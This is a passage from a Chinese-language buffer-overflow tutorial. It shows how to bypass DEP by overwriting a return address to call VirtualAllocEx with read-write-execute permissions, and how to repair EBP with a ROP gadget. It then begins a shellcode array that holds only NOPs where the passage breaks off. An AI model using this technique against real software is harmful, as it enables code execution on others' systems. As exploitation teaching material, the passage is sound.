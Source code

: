 <img src="images/09/virtualalloc函数的具体实现流程.png">

这次我们将参数直接布置到shellcode中，然后选择 0x7c8245BC CALL VirtualAllocEx处作为切入点，直接申请空间。

关键参数取值：
- lpAddress = 0x00030000，只要选择一个未被占用的地址即可，没有什么特殊要求；
- dwSize = 0xFF，申请空间大小可以根据shellcode的长度确定，这里申请了255个字节；
- flAllocationType = 0x00001000，该值使用0x00001000即可，如有特殊需要可根据MSDN的介绍来设置为其他值。
- flProtect = 0x00000040，内存属性要设置为可读可写可执行，详情可参考[MSDN memory protection constants](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)

由于EBP在溢出过程中被破坏，所以第一步依然是修复EBP，我们用```PUSH ESP POP EBP RETN4```指令的地址覆盖test函数的返回地址，然后按照以上参数布置一个能够申请可执行内存空间的shellcode，shellcode如下所示：

```c
char shellcode [] = 
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
```